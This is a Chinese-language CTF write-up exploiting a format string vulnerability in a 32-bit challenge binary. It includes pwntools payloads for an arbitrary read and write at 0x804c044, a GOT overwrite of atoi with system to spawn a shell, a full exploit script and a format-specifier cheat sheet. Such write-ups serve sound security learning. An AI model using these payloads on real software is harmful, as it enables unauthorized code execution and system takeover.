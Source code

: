 ## 0x001 程序分析

进入程序，查看main函数

![](1.png)

首先获取一个随机数，保存到地址 **0x804c044** 中，然后接收输入用户名和密码，将密码转化为整数，与刚获取的随机数进行比较，如果相同，则可以直接获取系统权限。

## 0x002 漏洞分析

首先看下两处接收输入的地方，使用的是 **read** 函数，先读取 0x63 个字符保存到 **buf** 中，然后读取 0xf 个字符保存到 **nptr** 中。

由于 **buf** 的长度为 100，**nptr** 的长度为 16，因此都没有超过其最大长度，不存在栈溢出漏洞。

再看下输出的地方，可以看到在使用 **printf** 输出了 **Hello,** 之后，直接使用 **printf(buf)** 打印了 **buf** 的内容，因此这里由于 **printf** 的错误使用，导致了格式化字符串漏洞。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](2.png)

开的栈溢出保护和 NX 不影响格式化字符串漏洞的利用。

首先获取输入内容在栈中相对于 **printf** 的偏移量。

![](3.png)

在程序运行后输入 **AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p**，可以从打印的内容中看到，出现 **0x41414141** 时，输入内容相对于 **printf** 的偏移量为10。

### 格式化字符串漏洞的利用方法1-任意地址读

解题思路一，通过任意地址读，将保存在地址 **0x804c044** 中的随机数读出来，然后作为 **password** 写入，这样输入的内容就与随机数相同，可通过校验。

已知保存随机数的地址为 **0x804c044**，偏移量为n，可构造payload如下：
```
payload = p32(0x804c044) + b"%10$s"

p.recvuntil("your name:")
p.sendline(payload)

p.recvuntil("Hello,")
p.recv(4)
random_data = u32(p.recv(4))

p.recvuntil("your passwd:")
p.sendline(str(random_data))
```

可成功获取随机数，之后再将获取到的内容作为输入，可校验成功。（本地测试运行可成功获取系统权限，但是远程不行。。。网上的说法是这个随机数是从服务器读入的，无法知道内容。。。）

### 格式化字符串漏洞的利用方法2-任意地址写

解题思路二，通过任意地址写，将 **0x804c044** 中的随机数修改为任意值，然后在输入相同的值，即可校验成功。

可构造payload如下：

```
payload = p32(0x804c044) + b"%10$n"
```

解题思路三，通过任意地址写，将后面调用到的函数的GOT地址修改为 **system** 函数的PLT地址，然后再结合后面输入需要的参数，即可执行 **system("/bin/sh", 0)** 命令获取权限。

可使用pwntools提供的格式化字符串漏洞利用函数 **fmtstr_payload** 构造payload，修改任意地址内容，使用方式如下：

```
payload = fmtstr_payload(10, {atoi_got:system_plt})
```

第一次改的时候没多想，直接把 **puts** 函数的GOT改了，然后发现参数 **（"/bin/sh", 0)** 传不过去。。。后来看了看才发现，**atoi** 函数的参数是通过输入传过去的，修改 **atoi** 函数的GOT地址才是正解。。。

### 最终EXP如下：

```
from pwn import *

context(os='linux', log_level='debug')

p = process("./pwn")
elf = ELF("./pwn")

atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]

payload1_1 = p32(0x804c044) + b"%10$n"
payload1_2 = b"%4c%12$n" + p32(0x804c044)
payload1_3 = fmtstr_payload(10, {0x804c044: 4})

payload2_1 = p32(atoi_got) + b"%" + str(system_plt-4).encode() + b"c%10$n"
payload2_3 = fmtstr_payload(10, {atoi_got: system_plt})

p.recvuntil("your name:")
p.sendline(payload1_1)

payload1 = b"4"
payload2 = b"/bin/bash\x00"

p.recvuntil("your passwd:")
p.sendline(payload1)

p.interactive()
```

## 0x004 格式化字符串漏洞利用小结

格式化字符串漏洞任意地址读取：

![](4.png)

> %x : 以十六进制形式打印栈中 **数据A** 的值

> %d : 以十进制形式打印栈中 **数据A** 的值

> %p : 以指针形式（十六进制）打印栈中 **数据A** 的值

> %s : 以字符串形式打印栈中 **数据B** 的值

通过 **%n$x** 可以打印栈中任意位置 **数据A** 的值，或者通过 **%n$s** 可以打印栈中任意位置 **数据B** 的值，n为偏移量控制栈的位置，一般 n>=1。

也可以使用 **地址+%n$s** 打印任意地址中保存的内容，此时 **n** 为输入内容相对于 **printf** 的偏移量。

格式化字符串漏洞任意地址写入：

> %c : 输出字符，可以配合 **%n** 使用

> %n : 把已经成功输出的字符个数写入对应的整型指针参数所指的变量中

例如，可以使用 **p32(0x804c044) + b"%10$n"**，将 4 写入 **0x804c044** 中，因为 **p32(0x804c044)** 打印出来是4个字符；

也可以使用 **p32(atoi_got) + b"%" + str(system_plt-4).encode() + b"c%10$n"** 将 **atoi** 函数的GOT地址修改为 **system** 函数的PLT地址****。

格式化字符串漏洞未解之疑惑：

在使用任意地址写入时，可以将要写入内容的地址放在前面，也可以将该地址放在后面，还没弄明白这两者的区别，有待解决。